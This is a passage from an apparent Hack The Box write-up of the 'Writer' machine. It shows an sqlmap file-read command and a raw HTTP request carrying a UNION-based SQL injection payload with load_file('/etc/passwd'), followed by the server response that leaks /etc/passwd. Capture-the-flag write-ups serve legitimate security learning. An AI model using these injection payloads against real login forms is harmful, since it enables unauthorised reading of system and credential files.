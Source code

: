 The hash is `118e48794631a9612484ca8b55f622d0`. I can't crack it with john or hashcat. There's something else about [SQLi.](http://sqli.it) It is not possible to spawn a shell here. However, we can try to read some files.

```bash
$ sqlmap -u http://writer.htb/administrative --data="uname=&password=" --dbms=mysql --web-root="/var/www/html" --file-read="about.html" --time-sec=5
```

Hmm, I thought that SQLi is doing something wrong, because there is another way to leak the information, via the second field in union query which will be returned to us in the message like 'welcome admin' but instead of admin, it will be our response. Let's try:

```
POST /administrative HTTP/1.1
Host: writer.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: http://writer.htb
Connection: close
Referer: http://writer.htb/administrative
Upgrade-Insecure-Requests: 1

uname=admin'+union+select+null,load_file('/etc/passwd'),null,null,null,null%3b+%23&password=admin
```

Got /etc/passwd:

```
HTTP/1.1 200 OK
Date: Tue, 17 Aug 2021 14:57:43 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Cookie,Accept-Encoding
Set-Cookie: session=.eJyrViotTi1SslJKTMnNzFNXKM3LzM9TKE7NSU0uUcgrzcnRyclPTIlPy8xJ1VDXTy1J1i9ILC4uT1HX1AHLohLWCspKtQDQLB0e.YRvOZw.DO021Kfoe8Gl-o9ELde-ih2CLDw; HttpOnly; Path=/
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 3337

<!doctype html>
<html lang="en">

<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta http-equiv="refresh" content="0.1; URL=/dashboard" />
    <title>Redirecting | Writer.HTB</title>
    <link href="vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">
    <link href="css/redirect.css" rel="stylesheet">
</head>

<body>
    <div class="wrapper">
        <div class="page vertical-align text-center">
            <div class="page-content vertical-align-middle">
                <header>
                    <h3 class="animation-slide-top">Welcome adminroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```